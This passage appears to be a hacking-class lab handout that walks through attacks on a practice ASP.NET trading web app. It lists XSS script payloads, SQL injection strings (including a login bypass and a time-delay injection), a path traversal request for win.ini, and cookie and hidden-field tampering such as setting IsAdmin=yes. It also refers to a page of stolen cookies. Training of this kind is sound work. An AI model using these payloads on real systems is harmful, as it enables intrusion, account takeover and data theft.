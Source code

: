  
 
 
Now view the stolen cookie at:
http://54.172.112.249/xss_practice/username_password_logs.html




#########################################
# Let's kick it up a notch with ASP.NET #
# http://54.200.178.220/                #
#########################################


The trading Web App is on http://54.200.178.220/


Try the following in the search box:
	<script>alert(123);</script>
	' or 1=1
	' and a=a
	1=1
	Joe'+OR+1=1;--


	<script>alert(123);</script>
	
Open a new tab in firefox and try this:
	http://54.200.178.220/Searchresult.aspx?<script>alert(123);</script>=ScriptName


Try the contact us form.
Open a new tab in firefox and try this:
	http://54.200.178.220/OpenPage.aspx?filename=../../../../../../windows/win.ini

Try this on the inquiry form:
	Joe McCray
	1234567890
	joe@strategicsec.com') waitfor delay '00:00:10'--


Login Box:

	' or 1=1 or ''='
	anything   			(click login instead of pressing enter)



Tamper Data: (notice 2 session IDs)

	AcmeTrading=a4b796687b846dd4a34931d708c62b49; 		SessionID is md5
	IsAdmin=yes; 
	ASP.NET_SessionId=d10dlsvaq5uj1g550sotcg45



Profile - Detail	(tamper data)
	Disposition: form-data; name="ctl00$contentMiddle$HiddenField1"\r\n\r\njoe\r\n
	joe|set
